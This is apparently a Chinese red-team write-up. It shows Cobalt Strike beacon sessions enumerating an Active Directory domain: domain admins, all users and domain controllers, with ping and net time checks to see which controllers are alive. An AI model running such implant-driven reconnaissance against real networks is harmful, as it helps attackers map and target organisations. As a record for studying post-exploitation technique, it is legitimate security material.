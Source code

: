 
## 域内信息收集：

- 域名：HFANGDICHAN.LOCAL
- `shell net group "domain admins" /domain` 获取了域管理员用户
- `shell net users /domain` 获取了全部域内用户，大概判断了域的规模
- 域控机器：

```
snowming19 beacon> shell net group "domain controllers" /domain
The request will be processed at a domain controller for domain hfangdichan.local.
Group name     Domain Controllers
Comment        All domain controllers in the domain
Members
-------------------------------------------------------------------------------
AD1$                     AD2$                     AD3$                     
The command completed successfully.
beacon> shell ping -n 1 AD1
Pinging AD1.hfangdichan.com [192.168.11.2] with 32 bytes of data:
Reply from 192.168.11.2: bytes=32 time<1ms TTL=128
Ping statistics for 192.168.11.2:
   Packets: Sent = 1, Received = 1, Lost = 0 (0% loss),
Approximate round trip times in milli-seconds:
   Minimum = 0ms, Maximum = 0ms, Average = 0ms
beacon> shell ping -n 1 AD2
[*] Tasked beacon to run: ping -n 1 AD2
Pinging AD2.hfangdichan.com [192.168.0.134] with 32 bytes of data:
Reply from 192.168.0.134: bytes=32 time=1ms TTL=124
Ping statistics for 192.168.0.134:
   Packets: Sent = 1, Received = 1, Lost = 0 (0% loss),
Approximate round trip times in milli-seconds:
   Minimum = 1ms, Maximum = 1ms, Average = 1ms
beacon> shell ping -n 1 AD3
Ping request could not find host AD3. Please check the name and try again.
```

AD3 无法获取 IP。可能是禁 ICMP 响应了。也可能是此域控机器不再存活。毕竟、LDAP 存的都是记录，不一定都存活。于是进行测试：

```
snowming1000 beacon> shell net time \\AD1
[*] Tasked beacon to run: net time \\AD1
[+] host called home, sent: 90 bytes
[+] received output:
Current time at \\AD1 is 6/9/2020 1:50:43 PM
beacon> shell net time \\AD2
[*] Tasked beacon to run: net time \\AD2
[+] host called home, sent: 45 bytes
[+] received output:
Current time at \\AD2 is 6/9/2020 1:52:43 PM
beacon> shell net time \\AD3
[*] Tasked beacon to run: net time \\AD3
[+] host called home, sent: 45 bytes
[+] received output:
The service has not been started.
More help is available by typing NET HELPMSG 2184.
```

